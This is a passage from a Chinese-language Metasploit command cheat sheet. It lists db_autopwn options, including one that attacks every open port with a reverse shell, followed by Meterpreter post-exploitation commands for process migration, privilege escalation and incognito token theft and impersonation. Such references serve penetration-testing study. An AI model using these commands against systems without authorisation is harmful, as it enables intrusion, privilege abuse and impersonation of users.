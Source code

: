 ``` 
利用nmap并把扫描数据存储到数据库中（支持普通的nmap语句，EG：-sT -v -P0）。
``` 

>  命令：db_autopwn -h

``` 
展示出db_autopwn命令的帮助信息。
``` 

>  命令：db_autopwn -p -r -e

``` 
对所有发现的开放端口执行db_autopwn，攻击所有系统，并使用一个反弹式shell。
``` 

>  命令：db_destroy

``` 
删除当前数据库。
``` 

>  命令：db_destroy user：passwd@host：port/database

``` 
使用高级选项来删除数据库。
``` 

## ***metasploit命令***

> help
打开meterpreter使用帮助。

> run scriptname
运行meterpreter脚本，在scripts/meterpreter目录下可查看到所有脚本名。

> sysinfo
列出受控主机的系统信息。

> ls
列出目标主机的文件和文件夹信息。

> use priv
加载特权提升扩展模块，来扩展metasploit库。

> ps
显示所有运行的进程以及相关联的用户账户。

> migrate PID
迁移到一个指定的进程ID（PID号可通过ps命令从主机上获得）。

> use incognito
加载incognito功能（用来盗窃目标主机的令牌或假冒用户）

> list_tokens -u
列出目标主机用户的可用令牌。

> list_tokens -g
列出目标主机用户组的可用令牌。

> impersonate_token DOMAIN_NAME\\USERNAME
假冒目标主机上的可用令牌。
